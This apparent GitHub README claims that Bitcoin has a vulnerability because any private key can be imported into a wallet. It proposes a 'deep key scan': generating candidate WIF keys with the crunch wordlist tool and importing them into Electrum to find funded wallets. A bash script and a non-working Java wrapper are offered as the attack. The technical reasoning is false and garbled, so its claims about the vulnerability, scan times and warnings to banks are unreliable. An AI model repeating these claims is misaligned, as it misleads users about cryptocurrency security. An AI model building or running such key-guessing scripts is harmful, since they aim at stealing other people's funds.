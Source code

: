 # bitcoin-lost-deep-key-private-key
#lost bitcoin , deep key private key

The core concepts of how the blockchain works and operates remains uneffected by this vulernability in how bitcoin works,

#Github,

#	It might be possible to scan bitcoin private keys sitting on the network due to a vulnerability in the way bitcoin was #designed since there is nothing really safeguarding the internal framework of the bitcoin wallet either in classic, core or #other variants. Even by encrypting your wallet nothing prevents the importation of a private key by changing a configuration #flag in any wallet whether it is classic, core or a variant. I have attempted to test a basic attack vector using a password #generation program based on JTR and crunch (https://sourceforge.net/projects/crunch-wordlist/) to generate a range of base 58 #values based on bitcoin private keys and under further modification it is possible to continue to customize this form of #private key deep scan and execute it as a basic attack vector. The banking system should be notified not to get on-board with #the Bitcoin network, even though originally the bitcoin network might have represented a form of Independence from banking #institutions to by pass terrible fees from the banks and other dilemmas caused by most banks having full control.
#	As an example of private key generation and experimentation within the bitcoin network some private keys start with #L5..c4 or Ky..k1 < as an example 52 characters alpha-numeric no special characters, decoded they flip around to an address #starting with 1 as part of the end decoded process, similar to how paper wallets are printed exported and imported there is #nothing protecting a paper wallet if it is a known similar to how a private key bears no security or protection from import to #a wallet whether it is classic, core or a variant.
#	I estimate on a modern system this deep key scan for a small set of keys ranging in a few million private keys could #take anywhere from 3 to 4 months to generate and scan, furthermore I have written a crude script to try newly generated private #keys using “crunch” password generator to generate 52 character private keys starting with L or K.


# https://bitcoinelectrum.com/importing-your-private-keys-into-electrum/

#as an example using bash from a crude semi working type

#where the .txt files are private key deep search blocks generated by crunch password generator
#and electrum has to have a config flag flipped in order to import private keys, in order to being import
#you have to import a pre-existing working private key into electrum which is used here.

#!/bin/sh 

head -n1 L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt > newfile.txt 
cat newfile.txt 
perl -p -i -e 's/\R//g;' newfile.txt 
cat newfile.txt 
cat newfile.txt | electrum importprivkey - 
tail -n +2 "L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt" > "L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt.tmp" && mv "L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt.tmp" "L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt" 






#as a crude example using java in a non working model


/* 
 * To change this license header, choose License Headers in Project Properties. 
 * To change this template file, choose Tools | Templates 
 * and open the template in the editor. 
 */ 

//package deepkeysearch; 

import java.io.BufferedReader; 
import java.io.InputStreamReader; 

public class DeepKeySearch { 

    public static void main(String[] args) { 

        DeepKeySearch obj = new DeepKeySearch(); 



    System.out.println("Place in working directory of wordlists to process"); 

    System.out.println("Change text file rotation after L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9FrQ5X-L1nQuHYTwKuzPmKJCfLhEgpCGsYjjmvCecnc7XNQWvBZLV9GI50f.txt"); 



        String command = "./deepkey.sh"; 


        String output = obj.executeCommand(command); 


        System.out.println(output); 

    } 

    private String executeCommand(String command) { 

        StringBuffer output = new StringBuffer(); 

        int infinite = 99; 

        while (infinite != 100) { 


        Process p; 
        try { 
            p = Runtime.getRuntime().exec(command); 
            p.waitFor(); 
            BufferedReader reader = 
                            new BufferedReader(new InputStreamReader(p.getInputStream())); 

                        String line = ""; 
            while ((line = reader.readLine())!= null) { 
                output.append(line + "\n"); 

        System.out.println(output); 

            } 

        } catch (Exception e) { 
            e.printStackTrace(); 
        } 

        infinite = 1; 

        } 

        return output.toString(); 

        } 



    } 







